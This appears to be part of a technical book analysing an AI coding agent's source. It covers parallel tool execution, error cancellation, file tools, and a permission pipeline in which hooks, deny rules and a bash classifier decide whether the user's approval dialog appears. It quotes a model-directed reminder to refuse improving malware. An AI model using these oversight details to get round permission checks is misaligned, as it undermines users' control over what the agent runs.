4. **If 'ask'**: Check for coordinator or swarm worker permission handlers first (which may resolve without showing a dialog). Then check for speculative bash classifier approval (with a 2-second timeout). Finally, fall through to `handleInteractivePermission()`, which shows the permission dialog to the user.

The speculative classifier check races a bash classifier response against a 2-second timeout. If the classifier approves within the grace period, the permission dialog is skipped. This 2-second grace period is a pragmatic tradeoff: it reduces permission friction for common commands (like `git status` or `npm test`) that the classifier can quickly approve, while still showing the dialog for commands that the classifier cannot classify quickly or with high confidence.

In addition to the local interactive permission dialog, cc supports remote permission callbacks via the bridge mode (for `claude assistant` sessions viewed on claude.ai) and channel permissions (for Telegram/iMessage integrations). These callbacks race against each other and against the local interactive dialog, and the first resolution wins.

## Edge cases and failure modes

### Bash error sibling cancellation

When a Bash tool invocation errors during concurrent execution, the `StreamingToolExecutor` cancels all sibling tools via `siblingAbortController`. Only Bash errors trigger this cascade, because bash commands often have implicit dependency chains (e.g., `mkdir` fails, making subsequent `cd` pointless). Read/WebFetch failures are independent and do not cancel siblings:

```typescript
// src/services/tools/StreamingToolExecutor.ts:L354-L363
if (isErrorResult) {
  thisToolErrored = true
  // Only Bash errors cancel siblings. Bash commands often have implicit
  // dependency chains (e.g. mkdir fails → subsequent commands pointless).
  // Read/WebFetch/etc are independent — one failure shouldn't nuke the rest.
  if (tool.block.name === BASH_TOOL_NAME) {
    this.hasErrored = true
    this.erroredToolDescription = this.getToolDescription(tool)
    this.siblingAbortController.abort('sibling_error')
  }
}
```

The `siblingAbortController` is a child of the main `toolUseContext.abortController`. Aborting siblings does not abort the parent query -- the query loop continues to the next turn. This is important because a bash error in a multi-tool turn should not kill the entire query; it should only cancel the tools that might depend on the failed bash command.

When a sibling is cancelled, it receives a synthetic error message explaining what happened:

```typescript
// src/services/tools/StreamingToolExecutor.ts:L189-L193
const desc = this.erroredToolDescription
const msg = desc
  ? `Cancelled: parallel tool call ${desc} errored`
  : 'Cancelled: parallel tool call errored'
```

This message is returned to the model as a `tool_result` with `is_error: true`, so the model knows that the tool was cancelled because of a sibling error and can adjust its next response accordingly.

### Streaming fallback discard

When streaming fallback occurs (the model's streaming response is interrupted and the system falls back to a non-streaming retry), the `StreamingToolExecutor` is discarded via `discard()`. This prevents results from the failed streaming attempt from leaking into the retry:

```typescript
// src/services/tools/StreamingToolExecutor.ts:L69-L71
discard(): void {
  this.discarded = true
}
```

After `discard()` is called, `getCompletedResults()` and `getRemainingResults()` return immediately without yielding any messages. In-progress tools receive synthetic streaming-fallback error messages, and queued tools are never started. This is a clean break that ensures the retry starts from a consistent state.

### Hook allow does not bypass deny rules

The `resolveHookPermissionDecision()` function enforces the invariant that a PreToolUse hook's 'allow' decision does not override settings.json deny or ask rules. This prevents a misconfigured hook from silently bypassing security restrictions:

```typescript
// src/services/tools/toolHooks.ts:L347-L405
if (hookPermissionResult?.behavior === 'allow') {
  const hookInput = hookPermissionResult.updatedInput ?? input

  const interactionSatisfied =
    requiresInteraction && hookPermissionResult.updatedInput !== undefined

  if ((requiresInteraction && !interactionSatisfied) || requireCanUseTool) {
    return {
      decision: await canUseTool(tool, hookInput, toolUseContext, assistantMessage, toolUseID),
      input: hookInput,
    }
  }

  // Hook allow skips the interactive prompt, but deny/ask rules still apply.
  const ruleCheck = await checkRuleBasedPermissions(tool, hookInput, toolUseContext)
  if (ruleCheck === null) {
    return { decision: hookPermissionResult, input: hookInput }
  }
  if (ruleCheck.behavior === 'deny') {
    return { decision: ruleCheck, input: hookInput }
  }
  // ask rule — dialog required despite hook approval
  return {
    decision: await canUseTool(tool, hookInput, toolUseContext, assistantMessage, toolUseID),
    input: hookInput,
  }
}
```

This invariant is a defense-in-depth measure. Without it, a hook that approves all tool uses (perhaps a logging hook that was intended only to observe, not to authorize) would effectively disable the entire permission system. The `checkRuleBasedPermissions()` call ensures that the user's explicit deny and ask rules are always respected, regardless of what hooks say.

### The requiresUserInteraction guard

Some tools (e.g., `AskUserQuestionTool`) require user interaction by their nature. When a hook approves such a tool via 'allow', the system still calls `canUseTool()` unless the hook also provided `updatedInput` (meaning the hook satisfied the interaction requirement itself):

```typescript
// src/services/tools/toolHooks.ts:L344-L356
const requiresInteraction = tool.requiresUserInteraction?.()
const interactionSatisfied =
  requiresInteraction && hookPermissionResult.updatedInput !== undefined

if ((requiresInteraction && !interactionSatisfied) || requireCanUseTool) {
  return {
    decision: await canUseTool(tool, hookInput, toolUseContext, assistantMessage, toolUseID),
    input: hookInput,
  }
}
```

This guard handles the case where a headless wrapper hook collects the answers to `AskUserQuestionTool` and provides them via `updatedInput`. Without this guard, the tool would always show the interactive permission dialog even when the hook has already provided the answers.

### The per-tool child abort controller

Each tool execution gets its own child abort controller, created as a child of the `siblingAbortController`:

```typescript
// src/services/tools/StreamingToolExecutor.ts:L301-L303
const toolAbortController = createChildAbortController(
  this.siblingAbortController,
)
```

This layered abort architecture has three levels: the main `toolUseContext.abortController` (aborted when the user types a new message), the `siblingAbortController` (aborted when a Bash error cancels siblings), and the per-tool `toolAbortController` (aborted when the user rejects a specific tool's permission request). Aborting a per-tool controller propagates up to the main controller, ending the entire turn. This ensures that a permission rejection does not leave orphaned tool executions running in the background.

The propagation is implemented via an abort event listener on the per-tool controller:

```typescript
// src/services/tools/StreamingToolExecutor.ts:L304-L318
toolAbortController.signal.addEventListener(
  'abort',
  () => {
    if (
      toolAbortController.signal.reason !== 'sibling_error' &&
      !this.toolUseContext.abortController.signal.aborted &&
      !this.discarded
    ) {
      this.toolUseContext.abortController.abort(
        toolAbortController.signal.reason,
      )
    }
  },
  { once: true },
)
```

This ensures that when a permission dialog is rejected (which aborts the per-tool controller), the abort signal reaches the main query controller, which then ends the turn. Without this propagation, the query loop would continue as if the tool had never been requested, potentially leading to inconsistent state where the model believes it has permission to use a tool that was actually rejected.

### The progress-available signal

The `StreamingToolExecutor` uses a promise-based signaling mechanism to avoid busy-waiting when tools are executing but no results have completed yet. The `progressAvailableResolve` field holds a resolver function that is called when a tool produces progress output:

```typescript
// src/services/tools/StreamingToolExecutor.ts:L367-L374
if (update.message.type === 'progress') {
  tool.pendingProgress.push(update.message)
  // Signal that progress is available
  if (this.progressAvailableResolve) {
    this.progressAvailableResolve()
    this.progressAvailableResolve = undefined
  }
}
```

The `getRemainingResults()` method waits on this signal along with the executing tool promises, using `Promise.race()` to wake up as soon as either a tool completes or progress becomes available. This avoids the latency of polling and ensures that progress messages are yielded to the UI as quickly as possible.

### The interrupt behavior per tool

Tools can define `interruptBehavior()` to control what happens when the user submits a new message while the tool is running. The method returns either `'cancel'` (stop the tool and discard its result) or `'block'` (keep running; the new message waits). The default is `'block'`, which means that by default, submitting a new message while a tool is running will wait for the tool to complete.

The `updateInterruptibleState()` method tracks whether all currently executing tools are interruptible (i.e., their `interruptBehavior()` returns `'cancel'`). When all executing tools are interruptible, the `setHasInterruptibleToolInProgress` callback is called with `true`, enabling the UI to show an appropriate affordance (e.g., a "press Escape to interrupt" hint).

### Max tool use concurrency

The concurrent execution path is capped by an environment variable:

```typescript
// src/services/tools/toolOrchestration.ts:L8-L12
function getMaxToolUseConcurrency(): number {
  return (
    parseInt(process.env.CLAUDE_CODE_MAX_TOOL_USE_CONCURRENCY || '', 10) || 10
  )
}
```

The default is 10 concurrent tool executions. This cap prevents the model from spawning an unbounded number of parallel operations, which would overwhelm system resources and potentially mask errors in the output. In practice, the model rarely emits more than 5 concurrent tool uses in a single turn, so the cap is a safety net rather than a frequent bottleneck.

## Where cc diverges from the published pattern

HER Pattern 12 (Deterministic Lifecycle Hooks) describes shell commands at 25+ lifecycle points. cc's implementation matches this pattern closely but adds several capabilities not described in the HER:

1. **Hook permission decisions integrate with the general permission system**: The HER describes hooks as standalone scripts that can approve or deny tool use independently. cc's `resolveHookPermissionDecision()` integrates hook decisions with settings.json deny/ask rules, ensuring that a hook's 'allow' cannot bypass a deny rule. This is a safety layer not described in the HER pattern, which assumes that hooks are either trusted or untrusted but does not address the case where a trusted hook contradicts a user-authored deny rule.

2. **The streaming executor adds cross-tool error propagation**: The HER's lifecycle hooks are described as fire-and-forget scripts that observe and possibly modify tool inputs and outputs. cc's `StreamingToolExecutor` propagates Bash errors to sibling tools via abort controllers, implementing the "early termination" strategy from HER 13.3. The HER does not describe cross-tool error propagation, which is a significant gap in the context of parallel tool execution.

3. **The Silent Failures failure mode is addressed structurally**: HER 6.6 warns that agents may proceed after tool errors as if successful. cc addresses this through structured output validation: every tool call yields either a `tool_result` with `is_error: true` or a normal result. The model always sees whether the tool succeeded or failed. The `StreamingToolExecutor` also cancels siblings on Bash errors, preventing the model from acting on the assumption that a failed command succeeded. The PostToolUse hook's `hook_blocking_error` type provides an additional layer of protection by allowing hooks to block invalid or dangerous tool results.

4. **The Tool Explosion failure mode is addressed by the deferred tool system**: HER 6.8 warns that too many tools degrade selection accuracy. cc's `shouldDefer` and `alwaysLoad` flags (discussed in ch11) implement progressive tool expansion. The dispatch pipeline handles deferred tools gracefully: if the model calls a deferred tool, the input validation returns a hint telling the model to load it first, rather than failing silently.

5. **Concurrency safety is per-invocation, not per-tool**: The `isConcurrencySafe()` method takes the tool's input as an argument, meaning the same tool can be concurrency-safe for some inputs and not for others. For example, `BashTool` with `ls` is concurrency-safe, but `BashTool` with `rm` is not. The HER pattern does not discuss input-dependent concurrency, which is an important distinction for tools like `BashTool` that can perform both read and write operations.

6. **The partition-then-execute pattern preserves ordering**: The `partitionToolCalls()` function groups adjacent concurrency-safe tools into parallel batches, but it preserves the original ordering of non-concurrency-safe tools. This means that if the model emits `[Read, Read, Write, Read]`, the dispatch pipeline will run the two Read tools in parallel, then run the Write tool alone, then run the final Read tool alone. This ordering guarantee is important for correctness: the model expects its tool calls to be executed in the order it specified, and reordering them could produce incorrect results.

## Developer takeaways for building a long-running agent

1. **Partition tool calls into concurrent-safe and serial batches.** Not all tools can run in parallel. The `partitionToolCalls()` function groups adjacent concurrency-safe tools into parallel batches and serializes everything else. This maximizes throughput without sacrificing safety. The partition preserves the original ordering, so the model's intent is always respected.

2. **Propagate Bash errors to sibling tools.** When a Bash command fails during concurrent execution, cancel the remaining siblings via an abort controller. This prevents the model from making decisions based on the assumption that a failed command succeeded. The cancellation is specific to Bash because bash commands have implicit dependency chains; read operations are independent.

3. **Queue context modifiers for concurrent batches, apply them for serial batches.** Concurrent tools must not modify shared context mid-batch. Queue the modifiers and apply them after the batch completes. Serial tools can modify context immediately because there is no concurrency concern. This prevents race conditions where one tool's context modification affects another tool's execution.

4. **Enforce the invariant that hook 'allow' does not bypass deny rules.** A PreToolUse hook that approves a tool use should not override a settings.json deny rule. This is a defense-in-depth measure that prevents misconfigured hooks from silently bypassing security restrictions. The `resolveHookPermissionDecision()` function implements this invariant by checking deny rules even when the hook approves.

5. **Race speculative classifier checks against a timeout.** When the permission system would show a dialog for a bash command, race a classifier check against a short timeout (2 seconds in cc). If the classifier approves within the grace period, skip the dialog. If it times out, show the dialog anyway. This reduces permission friction for common commands without sacrificing safety.

6. **Discard streaming executors on fallback.** When the streaming path fails and the system falls back to a non-streaming retry, discard the streaming executor immediately. This prevents stale results from the failed attempt from leaking into the retry. The `discard()` method sets a flag that causes all subsequent result-yielding methods to return immediately.

7. **Cap concurrent tool execution.** Set a maximum concurrency limit (10 in cc) to prevent the model from spawning unbounded parallel operations. This protects system resources and ensures that errors are observable rather than lost in a flood of concurrent output. The cap is configurable via an environment variable for users who need to adjust it.

8. **Make concurrency safety input-dependent.** The same tool can be concurrency-safe for some inputs and not for others. A read-only bash command is safe to parallelize; a write command is not. Passing the input to `isConcurrencySafe()` enables this distinction, which is essential for tools like `BashTool` that can perform both read and write operations depending on the command.
# File System Tools: Read, Write, Edit, Glob, Grep, Notebook

## Overview

The file system tool family forms the largest single cluster in cc's tool catalog: six tools that give the model read and write access to the repository and beyond. They are the primary interface through which an agent interacts with source code, configuration, and data. Each tool is a single-purpose unit (HER Pattern 11) with its own Zod schema, permission checks, and prompt template. This chapter traces the common architecture they share -- the read-before-write contract, the file-history checkpoint system, the permission pipeline -- and then dives into the distinct semantics of each tool: how `Read` deduplicates repeated reads and handles binary formats, how `Write` enforces stale-view rejection, how `Edit` performs exact string replacement, how `Glob` and `Grep` delegate to ripgrep, and how `NotebookEdit` manages `.ipynb` cell mutations. The chapter concludes with a discussion of the data-leakage risk HER identifies when file-based communication persists between contexts.

## Data structures and contracts

All six tools are constructed via `buildTool()`, inheriting the shared `ToolDef` interface. Each declares an input schema (Zod `strictObject`), an output schema, and a set of lifecycle hooks (`validateInput`, `checkPermissions`, `call`, `mapToolResultToToolResultBlockParam`).

### Read tool input schema

The `Read` tool's input schema is the richest, reflecting its multi-format support:

```typescript
// src/tools/FileReadTool/FileReadTool.ts:L227-L243
const inputSchema = lazySchema(() =>
  z.strictObject({
    file_path: z.string().describe('The absolute path to the file to read'),
    offset: semanticNumber(z.number().int().nonnegative().optional()).describe(
      'The line number to start reading from. Only provide if the file is too large to read at once',
    ),
    limit: semanticNumber(z.number().int().positive().optional()).describe(
      'The number of lines to read. Only provide if the file is too large to read at once.',
    ),
    pages: z
      .string()
      .optional()
      .describe(
        `Page range for PDF files (e.g., "1-5", "3", "10-20"). Only applicable to PDF files. Maximum ${PDF_MAX_PAGES_PER_READ} pages per request.`,
      ),
  }),
)
```

The `offset` and `limit` fields use `semanticNumber`, a wrapper that prevents the model from passing string representations of numbers where numeric types are expected. This wrapper is critical because LLMs frequently emit JSON with string-typed numeric fields, and without it the Zod `strictObject` parser would reject those inputs outright.

### Read tool output schema

The output schema uses a discriminated union with six variants, one for each content type the tool can return:

```typescript
// src/tools/FileReadTool/FileReadTool.ts:L248-L331
const outputSchema = lazySchema(() => {
  // Define the media types supported for images
  const imageMediaTypes = z.enum([
    'image/jpeg',
    'image/png',
    'image/gif',
    'image/webp',
  ])

  return z.discriminatedUnion('type', [
    z.object({
      type: z.literal('text'),
      file: z.object({
        filePath: z.string().describe('The path to the file that was read'),
        content: z.string().describe('The content of the file'),
        numLines: z
          .number()
          .describe('Number of lines in the returned content'),
        startLine: z.number().describe('The starting line number'),
        totalLines: z.number().describe('Total number of lines in the file'),
      }),
    }),
    z.object({
      type: z.literal('image'),
      file: z.object({
        base64: z.string().describe('Base64-encoded image data'),
        type: imageMediaTypes.describe('The MIME type of the image'),
        originalSize: z.number().describe('Original file size in bytes'),
        dimensions: z
          .object({
            originalWidth: z
              .number()
              .optional()
              .describe('Original image width in pixels'),
            originalHeight: z
              .number()
              .optional()
              .describe('Original image height in pixels'),
            displayWidth: z
              .number()
              .optional()
              .describe('Displayed image width in pixels (after resizing)'),
            displayHeight: z
              .number()
              .optional()
              .describe('Displayed image height in pixels (after resizing)'),
          })
          .optional()
          .describe('Image dimension info for coordinate mapping'),
      }),
    }),
    z.object({
      type: z.literal('notebook'),
      file: z.object({
        filePath: z.string().describe('The path to the notebook file'),
        cells: z.array(z.any()).describe('Array of notebook cells'),
      }),
    }),
    z.object({
      type: z.literal('pdf'),
      file: z.object({
        filePath: z.string().describe('The path to the PDF file'),
        base64: z.string().describe('Base64-encoded PDF data'),
        originalSize: z.number().describe('Original file size in bytes'),
      }),
    }),
    z.object({
      type: z.literal('parts'),
      file: z.object({
        filePath: z.string().describe('The path to the PDF file'),
        originalSize: z.number().describe('Original file size in bytes'),
        count: z.number().describe('Number of pages extracted'),
        outputDir: z
          .string()
          .describe('Directory containing extracted page images'),
      }),
    }),
    z.object({
      type: z.literal('file_unchanged'),
      file: z.object({
        filePath: z.string().describe('The path to the file'),
      }),
    }),
  ])
})
```

The discriminated union pattern allows downstream code to switch on the `type` field for type-safe pattern matching. The `file_unchanged` variant is the deduplication stub described later in this chapter.

### Edit tool schema

The `Edit` tool's schema captures the exact-replacement contract:

```typescript
// src/tools/FileEditTool/types.ts (referenced in FileEditTool)
const inputSchema = lazySchema(() =>
  z.strictObject({
    file_path: z.string().describe('The absolute path to the file to modify'),
    old_string: z.string().describe('The text to replace'),
    new_string: z
      .string()
      .describe(
        'The text to replace it with (must be different from old_string)',
      ),
    replace_all: semanticBoolean(
      z.boolean().default(false).optional(),
    ).describe('Replace all occurrences of old_string (default false)'),
  }),
)
```

The key constraint is that `old_string` must be unique in the file unless `replace_all` is set. This is not enforced by the schema itself but by the `validateInput` hook, which counts matches and rejects ambiguous edits.

### Write tool schema

The `Write` tool is the simplest of the three write-side tools: path and content only.

```typescript
// src/tools/FileWriteTool/FileWriteTool.ts:L56-L65
const inputSchema = lazySchema(() =>
  z.strictObject({
    file_path: z
      .string()
      .describe(
        'The absolute path to the file to write (must be absolute, not relative)',
      ),
    content: z.string().describe('The content to write to the file'),
  }),
)
```

The Write tool's output schema includes a `type` discriminator (`'create'` or `'update'`), the structured diff patch, and the original file content for diff rendering:

```typescript
// src/tools/FileWriteTool/FileWriteTool.ts:L68-L88
const outputSchema = lazySchema(() =>
  z.object({
    type: z
      .enum(['create', 'update'])
      .describe(
        'Whether a new file was created or an existing file was updated',
      ),
    filePath: z.string().describe('The path to the file that was written'),
    content: z.string().describe('The content that was written to the file'),
    structuredPatch: z
      .array(hunkSchema())
      .describe('Diff patch showing the changes'),
    originalFile: z
      .string()
      .nullable()
      .describe(
        'The original file content before the write (null for new files)',
      ),
    gitDiff: gitDiffSchema().optional(),
  }),
)
```

### NotebookEdit tool schema

The `NotebookEdit` tool manages `.ipynb` cell mutations with three edit modes:

```typescript
// src/tools/NotebookEditTool/NotebookEditTool.ts:L30-L57
export const inputSchema = lazySchema(() =>
  z.strictObject({
    notebook_path: z.string().describe(
      'The absolute path to the Jupyter notebook file to edit (must be absolute, not relative)',
    ),
    cell_id: z.string().optional().describe(
      'The ID of the cell to edit. When inserting a new cell, the new cell will be inserted after the cell with this ID, or at the beginning if not specified.',
    ),
    new_source: z.string().describe('The new source for the cell'),
    cell_type: z
      .enum(['code', 'markdown'])
      .optional()
      .describe(
        'The type of the cell (code or markdown). If not specified, it defaults to the current cell type. If using edit_mode=insert, this is required.',
      ),
    edit_mode: z.enum(['replace', 'insert', 'delete']).optional().describe(
      'The type of edit to make (replace, insert, delete). Defaults to replace.',
    ),
  }),
)
```

### readFileState: the shared write-guard map

A critical shared data structure is `readFileState` -- a `Map<string, ReadFileEntry>` maintained in `ToolUseContext` that records every file the model has read, along with the content, modification timestamp, offset, and limit. Both `Write` and `Edit` consult this map to enforce the read-before-write contract. The map is populated by the `Read` tool's `call` method and updated by the `Edit` and `Write` tools after they modify files, ensuring that subsequent reads see the updated timestamp.

### File-history state types

The file-history system has its own state type:

```typescript
// src/utils/fileHistory.ts:L31-L52
type BackupFileName = string | null // The null value means the file does not exist in this version

export type FileHistoryBackup = {
  backupFileName: BackupFileName
  version: number
  backupTime: Date
}

export type FileHistorySnapshot = {
  messageId: UUID // The associated message ID for this snapshot
  trackedFileBackups: Record<string, FileHistoryBackup> // Map of file paths to backup versions
  timestamp: Date
}

export type FileHistoryState = {
  snapshots: FileHistorySnapshot[]
  trackedFiles: Set<string>
  // Monotonically-increasing counter incremented on every snapshot, even when
  // old snapshots are evicted.  Used by useGitDiffStats as an activity signal
  // (snapshots.length plateaus once the cap is reached).
  snapshotSequence: number
}
```

Backups are stored at `~/.claude/file-history/{sessionId}/{sha256-hash}@v{N}` and keyed by content hash, making the v1 backup idempotent. The `snapshotSequence` counter is monotonically increasing even when old snapshots are evicted, serving as an activity signal for UI components that track edit frequency.

### The file-tool family

All six tools share the `buildTool()` contract but diverge in their permission hooks, concurrency semantics, and read/write classification:

```mermaid
classDiagram
    class ToolDef {
        +name: string
        +inputSchema
        +outputSchema
        +validateInput()
        +checkPermissions()
        +call()
    }
    class FileReadTool {
        +isReadOnly() true
        +isSearchOrReadCommand() isRead
        +maxResultSizeChars: Infinity
        +readFileState updates
    }
    class FileWriteTool {
        +isReadOnly() false
        +read-before-write guard
        +file-history backup
        +LSP didChange/didSave
    }
    class FileEditTool {
        +isReadOnly() false
        +exact-string replacement
        +findActualString quote normalization
        +replace_all support
    }
    class GlobTool {
        +isReadOnly() true
        +isSearchOrReadCommand() isSearch
        +maxResultSizeChars: 100_000
        +result cap: 100 files
    }
    class GrepTool {
        +isReadOnly() true
        +isSearchOrReadCommand() isSearch
        +maxResultSizeChars: 20_000
        +delegates to ripgrep
    }
    class NotebookEditTool {
        +isReadOnly() false
        +3 edit modes: replace/insert/delete
        +cell ID dual resolution
    }
    ToolDef <|-- FileReadTool
    ToolDef <|-- FileWriteTool
    ToolDef <|-- FileEditTool
    ToolDef <|-- GlobTool
    ToolDef <|-- GrepTool
    ToolDef <|-- NotebookEditTool
    FileReadTool ..> FileWriteTool : readFileState guard
    FileReadTool ..> FileEditTool : readFileState guard
    FileReadTool ..> NotebookEditTool : readFileState guard
    FileWriteTool ..> FileHistory : backup
    FileEditTool ..> FileHistory : backup
```

## Control flow

### Read-before-write pipeline

All three write-side tools (`Write`, `Edit`, `NotebookEdit`) enforce the same invariant: the model must have read the file before modifying it. This prevents the model from blindly overwriting content it has never seen, which would lead to silent data loss. The check lives in `validateInput`:

```typescript
// src/tools/FileWriteTool/FileWriteTool.ts:L198-L206
const readTimestamp = toolUseContext.readFileState.get(fullFilePath)
if (!readTimestamp || readTimestamp.isPartialView) {
  return {
    result: false,
    message:
      'File has not been read yet. Read it first before writing to it.',
    errorCode: 2,
  }
}
```

If the file was modified externally after the read (e.g., by a linter or another process), the stale-view check fires:

```typescript
// src/tools/FileWriteTool/FileWriteTool.ts:L211-L219
const lastWriteTime = Math.floor(fileMtimeMs)
if (lastWriteTime > readTimestamp.timestamp) {
  return {
    result: false,
    message:
      'File has been modified since read, either by the user or by a linter. Read it again before attempting to write it.',
    errorCode: 3,
  }
}
```

The `Edit` tool adds a Windows-specific fallback: if the mtime changed but the content is identical (common with cloud sync or antivirus), it allows the edit through. This is necessary because Windows file-system watchers can trigger mtime updates without actual content changes, causing false-positive stale-view rejections.

The complete write-side control flow proceeds as:

```mermaid
sequenceDiagram
    participant Model
    participant Read
    participant Edit
    participant FileHistory
    participant Disk

    Model->>Read: Read /path/to/file.ts
    Read->>Disk: stat + readFileInRange
    Disk-->>Read: content + mtime
    Read->>Read: readFileState.set(path, {content, timestamp})

    Model->>Edit: Edit /path/to/file.ts (old_string, new_string)
    Edit->>Edit: validateInput: check readFileState
    Edit->>Edit: checkPermission: checkWritePermissionForTool
    Edit->>FileHistory: fileHistoryTrackEdit (backup v1)
    FileHistory->>Disk: copyFile to backup
    Edit->>Disk: readFileSyncWithMetadata (confirm no external change)
    Edit->>Edit: findActualString (quote normalization)
    Edit->>Edit: getPatchForEdit (generate diff)
    Edit->>Disk: writeTextContent (atomic write)
    Edit->>Edit: readFileState.set(path, {updatedContent, newMtime})
    Edit->>Edit: LSP didChange + didSave
    Edit-->>Model: {filePath, oldString, newString, structuredPatch}
```

The Edit tool's `call` method performs a precise string replacement. The key step is `findActualString`, which normalizes curly quotes and other Unicode variants so that the model's `old_string` matches even if the file uses different quote characters:

```typescript
// src/tools/FileEditTool/FileEditTool.ts:L471-L488
const actualOldString =
  findActualString(originalFileContents, old_string) || old_string

// Preserve curly quotes in new_string when the file uses them
const actualNewString = preserveQuoteStyle(
  old_string,
  actualOldString,
  new_string,
)

// Generate patch
const { patch, updatedFile } = getPatchForEdit({
  filePath: absoluteFilePath,
  fileContents: originalFileContents,
  oldString: actualOldString,
  newString: actualNewString,
  replaceAll: replace_all,
})
```

The `replace_all` flag enables bulk renaming. When `replace_all` is false and there are multiple matches, validation rejects the edit with a helpful message asking for more context.

### Read tool deduplication

The `Read` tool implements a deduplication mechanism to avoid sending the same content twice into context. If the model reads the same file with the same offset and limit, and the mtime has not changed, it returns a stub instead of the full content:

```typescript
// src/tools/FileReadTool/FileReadTool.ts:L547-L572
if (
  existingState &&
  !existingState.isPartialView &&
  existingState.offset !== undefined
) {
  const rangeMatch =
    existingState.offset === offset && existingState.limit === limit
  if (rangeMatch) {
    try {
      const mtimeMs = await getFileModificationTimeAsync(fullFilePath)
      if (mtimeMs === existingState.timestamp) {
        logEvent('tengu_file_read_dedup', {
          ...(analyticsExt !== undefined && { ext: analyticsExt }),
        })
        return {
          data: {
            type: 'file_unchanged' as const,
            file: { filePath: file_path },
          },
        }
      }
    }
```

The stub is a constant that tells the model the earlier content is still valid:

```typescript
// src/tools/FileReadTool/prompt.ts:L7-L8
export const FILE_UNCHANGED_STUB =
  'File unchanged since last read. The content from the earlier Read tool_result in this conversation is still current — refer to that instead of re-reading.'
```

This saves approximately 18% of Read calls from re-sending full content, reducing cache-creation tokens significantly. The dedup only applies to entries that came from a prior `Read` call (where `offset` is always set). `Edit` and `Write` store `offset: undefined`, so their `readFileState` entries are excluded from dedup -- a necessary distinction because the post-edit mtime would match even though the content has changed.

A GrowthBook killswitch (`tengu_read_dedup_killswitch`) can disable dedup if the stub message confuses the model in external deployments.

### Read tool multi-format handling

The `Read` tool dispatches to different code paths based on file extension. After the dedup check, it determines the format from the extension and routes accordingly:

- **Notebook (.ipynb)**: Reads the JSON, extracts cells, validates size and token limits, then stores the serialized cells in `readFileState`. If the notebook exceeds the byte limit, it suggests using `jq` via the Bash tool for targeted reads.

- **Image (.png, .jpg, .jpeg, .gif, .webp)**: Reads the file once into a buffer, applies standard resize, then checks against the token budget. If the standard resize still exceeds the budget, applies aggressive compression from the same buffer. The image dimensions (original and display) are included in the output for coordinate mapping.

The image processing pipeline is implemented in `src/tools/FileReadTool/imageProcessor.ts`. This module abstracts over two backends: a native N-API module (`image-processor-napi`) used in bundled mode, and the `sharp` library used as a fallback or in non-bundled builds. The abstraction is via a `SharpFunction` type that wraps `sharp(input: Buffer)` into a minimal interface (`metadata`, `resize`, `jpeg`, `png`, `webp`, `toBuffer`). The lazy-loading strategy is deliberate: the `sharp` module is large and native, so importing it at the top level would slow startup. Instead, `getImageProcessor()` dynamically imports on first use and caches the result. A separate `getImageCreator()` function handles image creation from scratch (used by the drawing tools), which always uses `sharp` directly since the native module does not support image creation.

- **PDF**: For PDFs with more than 10 pages, the `pages` parameter is required. Page extraction uses poppler-utils, rendering each page as a JPEG image. For smaller PDFs that the model supports natively, the tool sends the raw base64-encoded content as a document block.

- **Text (default)**: Reads via `readFileInRange`, which handles offset/limit slicing and byte-size validation. Content is validated against the token limit after reading.

### Read tool token and size limits

The `limits.ts` module defines two caps on text reads:

```typescript
// src/tools/FileReadTool/limits.ts:L1-L18
// | limit         | default | checks                    | cost          | on overflow     |
// |---------------|---------|---------------------------|---------------|-----------------|
// | maxSizeBytes  | 256 KB  | TOTAL FILE SIZE (not out) | 1 stat        | throws pre-read |
// | maxTokens     | 25000   | actual output tokens      | API roundtrip | throws post-read|
```

The `maxSizeBytes` check gates on total file size, not the slice being read. This is a known mismatch: a 300 KB file where the user reads only lines 1-50 would still throw, even though the output would be small. The alternative (truncating instead of throwing) was tested and reverted because the mean token count rose -- the throw path yields a short error message while truncation yields up to 25K tokens of content at the cap.

### Read tool cyber-risk mitigation

The `Read` tool appends a malware-analysis reminder to every text file read:

```typescript
// src/tools/FileReadTool/FileReadTool.ts:L729-L730
export const CYBER_RISK_MITIGATION_REMINDER =
  '\n\n<system-reminder>\nWhenever you read a file, you should consider whether it would be considered malware. You CAN and SHOULD provide analysis of malware, what it is doing. But you MUST refuse to improve or augment the code. You can still analyze existing code, write reports, or answer questions about the code behavior.\n</system-reminder>\n'
```

This reminder is skipped for exempt models (currently `claude-opus-4-6`) that are judged to handle the analysis/refusal boundary correctly without prompting. The reminder is not applied to images, PDFs, or notebooks -- only to text content.

### Grep tool: ripgrep delegation

The `Grep` tool does not implement its own search engine. Instead, it constructs a ripgrep command line and delegates:

```typescript
// src/tools/GrepTool/GrepTool.ts:L93-L108
const VCS_DIRECTORIES_TO_EXCLUDE = [
  '.git', '.svn', '.hg', '.bzr', '.jj', '.sl',
] as const

const DEFAULT_HEAD_LIMIT = 250
```

The `call` method builds an argument list starting with `--hidden` and VCS-directory exclusions, adds `--max-columns 500` to prevent base64 or minified content from filling the output, then injects the user's glob patterns, type filters, and context flags. It also injects permission-based ignore patterns from `getFileReadIgnorePatterns`, converting them to ripgrep `--glob !pattern` exclusions.

In `files_with_matches` mode, results are stat'd and sorted by modification time (most recent first), then relativized to save tokens:

```typescript
// src/tools/GrepTool/GrepTool.ts (sort logic)
const stats = await Promise.allSettled(
  results.map(_ => getFsImplementation().stat(_)),
)
const sortedMatches = results
  // Sort by modification time
  .map((_, i) => {
    const r = stats[i]!
    return [
      _,
      r.status === 'fulfilled' ? (r.value.mtimeMs ?? 0) : 0,
    ] as const
  })
  .sort((a, b) => {
    if (process.env.NODE_ENV === 'test') {
      // In tests, we always want to sort by filename, so that results are deterministic
      return a[0].localeCompare(b[0])
    }
    const timeComparison = b[1] - a[1]
    if (timeComparison === 0) {
      // Sort by filename as a tiebreaker
      return a[0].localeCompare(b[0])
    }
    return timeComparison
  })
  .map(_ => _[0])
```

A default `head_limit` of 250 prevents unbounded context bloat from broad searches. The model can override with `head_limit: 0` for unlimited results. When results are truncated, the output includes `[Showing results with pagination = limit: N]` so the model knows there may be more results and can paginate with `offset`.

### Glob tool: file-pattern matching

The `Glob` tool delegates to a custom `glob` utility that wraps ripgrep's file-search mode. It accepts a pattern and an optional path, returning matched filenames sorted by modification time:

```typescript
// src/tools/GlobTool/GlobTool.ts:L57-L65
export const GlobTool = buildTool({
  name: GLOB_TOOL_NAME,
  searchHint: 'find files by name pattern or wildcard',
  maxResultSizeChars: 100_000,
  async description() {
    return DESCRIPTION
  },
  userFacingName,
  getToolUseSummary,
  isConcurrencySafe() { return true },
  isReadOnly() { return true },
  isSearchOrReadCommand() { return { isSearch: true, isRead: false } },
})
```

